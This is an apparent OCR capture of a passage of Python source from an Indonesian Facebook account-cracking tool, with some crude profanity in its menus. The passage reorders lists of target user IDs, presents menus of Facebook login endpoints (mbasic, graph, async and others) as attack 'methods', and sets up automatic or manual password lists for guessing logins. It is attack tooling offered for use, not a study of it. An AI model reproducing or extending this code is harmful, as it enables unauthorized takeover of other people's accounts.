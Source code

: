          elif hu in ['2','02']: 
                 muda=[] 
                 for bacot in sorted(id): 
                         muda.append(bacot) 
                 bcm=len(muda) 
                 bcmi=(bcm-1) 
                 for xmud in range(bcm): 
                         id2.append(muda[bcmi]) 
                         bcmi -=1 
         elif hu in ['3','03']: 
                 for bacot in id: 
                         xx = random.randint(0,len(id2)) 
                         id2.insert(xx,bacot) 
         else: 
                 print(' [+] Pilih Yang Bener Kontooll ') 
                 exit() 
         urut = [] 
         urut.append(panel(f'[bold white][[bold cyan]01[/][bold white]][/] [bold white]Login Site [bold green]m.facebook.com[bold white] [/]\n[bold white][[bold cyan]02[/][bold white]][/] [bold white]Login Site [bold green]mbasic.facebook.com[bold white]',width=42,title=f"[bold green]Validate",style=f"bold white")) 
         urut.append(panel(f'[bold white][[bold cyan]03[/][bold white]][/] [bold white]Login Site [bold green]reguler.facebook.com[bold white] [/]\n[bold white][[bold cyan]04[/][bold white]][/] [bold white]Login Site [bold green]graph.facebook.com[bold white]',width=42,title=f"[bold green]Reguler And B-Api[bold white]",style=f"bold white")) 
         urut.append(panel(f'[bold white][[bold cyan]05[/][bold white]][/] [bold white]Login Site [bold green]async.facebook.com[bold white] [/]\n[bold white][[bold cyan]06[/][bold white]][/] [bold white]Login Site [bold green]m.alpha.facebook.com[bold white] ',width=42,title=f"[bold green]Alpha And Async",style=f"bold white")) 
         urut.append(panel(f'[bold white][[bold cyan]07[/][bold white]][/] [bold white]Login Site [bold green]x.facebook.com[bold white] [/]\n[bold white][[bold cyan]08[/][bold white]][/] [bold white]Login Site [bold green]d.facebook.com[bold white] ',width=42,title=f"[bold green]Old Metode",style=f"bold white")) 
         console.print(Columns(urut)) 
         hc = input(f' [+] Pilih Metode : ') 
         if hc in ['1','01']: 
                 method.append('validate1') 
         elif hc in ['2','02']: 
                 method.append('validate2') 
         elif hc in ['3','03']: 
                 method.append('reguler1') 
         elif hc in ['4','04']: 
                 method.append('reguler2') 
         elif hc in ['5','05']: 
             method.append('kontol') 
         elif hc in ['6','06']: 
             method.append('bapi') 
         elif hc in ['7','07']: 
             method.append('colmek1') 
         elif hc in ['8','8']: 
             method.append('colmek2') 
         else: 
                 method.append('validate1') 
         cetak(panel('''[bold white][[bold cyan]01[bold white]] [bold white]Menggunakan Password V1 [[bold green]Recommended[bold white]] 
 [bold white][[bold cyan]02[bold white]] [bold white]Menggunakan Password V2 [[bold green]Very Recommended[bold white]] 
 [bold white][[bold cyan]03[bold white]] [bold white]Menggunakan Password Manual [[bold red]Not Recommended[bold white]]''',style='bold white',title='[bold green]Setting Password',padding=(0,8),width=90)) 
         pwplus=input(f' [+] {P}Pilih Sandi : ') 
         if pwplus in ['03','3']: 
                 pwpluss.append('ya') 
                 pwku=input(f' [+] Sandi : ') 